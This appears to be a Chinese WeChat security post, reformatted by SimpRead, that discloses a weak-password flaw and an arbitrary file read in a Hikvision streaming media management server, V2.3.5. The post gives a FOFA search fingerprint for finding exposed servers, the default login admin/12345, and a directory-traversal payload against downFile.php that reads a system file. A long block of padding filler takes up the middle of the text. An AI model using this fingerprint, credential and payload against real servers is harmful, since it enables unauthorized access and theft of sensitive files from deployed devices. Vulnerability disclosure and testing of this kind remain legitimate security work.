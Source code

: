 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rNyBEJ_YWAiMaAoIlM9OjQ)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqshtnWHbye1V5UmBfpoywIiag41FpucRHN4Uyib4k5Ex6t393d2jNzXP2Q/640?wx_fmt=png)

**0x01 漏洞描述**  

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞和任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息。

**0x02 影响版本**

HIKVISION V2.3.5

**0x03 漏洞利用**

```
## FOFA指纹
title="流媒体管理服务器"
```

弱口令：admin - 12345  

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsgcksZddicn8X9X3icH3T1nQOkA4PuZk8oicXg3Wzeaypzql45FY4ibDk3g/640?wx_fmt=png)

< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 ><凑字数>< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >< 凑字数 >

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsQPZNYfLFvfrbj8Kg2ZXGHpmJBia8K2icC8b0xSzibVJOXMVJgpQN8ZUYQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsUfl9XCjHwVfyXFKQ842wujPvSyeBgkhicGll56Kul8rbIaXpZ568LwQ/640?wx_fmt=png)

```
## Payload
/systemLog/downFile.php?fileName=../../../../../../../windows/system32/drivers/etc/hosts
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/ccX15AUPS2yPwE2XnAZmP79zz03JiaibqsxhhXPo4tFc0icEG5icspCge1E8bTic3xkO4IuPvbWyCQbBIyKm23PBbRw/640?wx_fmt=jpeg)
